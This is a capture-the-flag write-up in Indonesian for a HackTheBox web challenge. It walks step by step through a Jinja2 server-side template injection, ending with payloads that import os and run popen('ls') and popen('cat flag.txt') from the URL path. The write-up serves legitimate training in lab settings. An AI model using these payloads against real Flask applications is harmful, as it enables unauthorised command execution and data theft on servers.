 CTF Name : HackTheBox Challenges  
Challenge category : Web  
Challenge Name : Templates  
Challenge points : 0 Points — Easy  
Challenge desc : Can you exploit this simple mistake?

![[Pasted image 20240723132142.png]]

Berikut adalah isi dari web instancenya.
![[Pasted image 20240723132329.png]]

Dari page tersebut, kita dapat ambil informasi bahwa web tersebut menggunakan Flask/Jinja2. Yang mana kalau kita search di google tentang Jinja2, kita akan menemukan informasi baru.
![[Pasted image 20240723132528.png]]

Jinja merupakan sebuah template engine web yang terbuat dari python, cara kerjanya adalah merender text/variabel menjadi HTML. Apabila Jinja tidak dikonfigurasi security-nya dengan baik, maka Jinja bisa rentan terhadap SSTI (Server-Side Template Injection).

Untuk bacaan tentang SSTI bisa di [Hacktricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection).

Langsung saja kita kerjakan, kita lakukan pengetesan vuln Jinja dengan variabel name.
![[Pasted image 20240723134007.png]]

Ternyata, tidak terdapat perubahan apa-apa dengan variabel name. Kita akan coba untuk langsung memasukkan SSTI-nya sebagai direktori, contohnya seperti ini.

```
http://host:port/{{7*7}}
```


![[Pasted image 20240723134204.png]]
Dan ternyata bisa. Untuk pengujian lebih lanjutnya kita bisa mengikuti [Hacktricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti#accessing-global-objects). Berhubung Jinja ini terbuat dari python, maka kita bisa memasukkan juga program Python untuk exploit SSTInya. Kita akan menggunakan builtins function ‘import’, ‘mro’, dan ‘subclasses’ untuk mengakses setiap class yang diload di program python saat ini.

Untuk awalan exploitnya, kita akan menggunakan string class terlebih dahulu kemudian bertahap memodifikasi exploitnya sesuai dengan kasus yang ada.

```
http://host:port/{{"".__class__.__mro__[1]}}
```

![[Pasted image 20240723143239.png]]

Kita tambahkan subclasses untuk melihat list subclass yang dapat diakses dari object.

```
http://host:port/{{"".__class__.__mro__[1].__subclasses__()}}
```

Berikut adalah outputnya.

![[Pasted image 20240723144321.png]]

Output di atas adalah list class yang dapat kita akses, selanjutnya kita gunakan class yang terdapat function import di dalamnya.

```
http://host:port/{{"".__class__.__mro__[1].__subclasses__()[186].__init__.__globals__["__builtins__"]["__import__"]}}
```

![[Pasted image 20240723144805.png]]

Dari error di atas, dapat kita lihat bahwa function import dapat kita akses. Selanjutnya adalah kita akan meng-import os, lalu kita panggil ‘popen()’ yang akan mengeksekusi command dan kita panggil ‘read()’ untuk menampilkan outputnya.

```
http://host:port/{{"".__class__.__mro__[1].__subclasses__()[186].__init__.__globals__["__builtins__"]["__import__"]("os").popen("ls").read()}}
```

![[Pasted image 20240723145310.png]]

Sudah terlihat flag.txtnya, tinggal kita tampilkan dengan cat.

```
http://host:port/{{"".__class__.__mro__[1].__subclasses__()[186].__init__.__globals__["__builtins__"]["__import__"]("os").popen("cat flag.txt").read()}}
```

![[Pasted image 20240723145421.png]]

Thank you:)